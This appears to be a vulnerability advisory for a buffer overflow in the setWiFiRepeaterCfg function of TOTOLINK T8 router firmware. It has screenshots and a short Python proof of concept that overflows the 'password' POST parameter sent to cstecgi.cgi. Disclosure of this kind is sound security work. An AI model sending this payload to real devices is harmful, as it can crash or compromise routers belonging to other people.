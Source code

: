 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/222/ids/36.html

## Affected version

T8_Firmware V4.1.5cu.861_B20230220

## Vulnerability details

In the T8_Firmware V4.1.5cu.861_B20230220 firmware has a buffer overflow vulnerability in the `setWiFiRepeaterCfg` function. The `v6` variable receives the `password` parameter from a POST request. However, since the user can control the input of `password`, the `strcpy` can cause a buffer overflow vulnerability.

![image-20240902130327118](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130327118.png)

![image-20240902130220521](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130220521.png)

![image-20240902130420047](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130420047.png)

![image-20240902130256792](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240902130256792.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setWiFiRepeaterCfg",
"encrypt":"WEP",
"password":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721015356613](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721015356613.png)
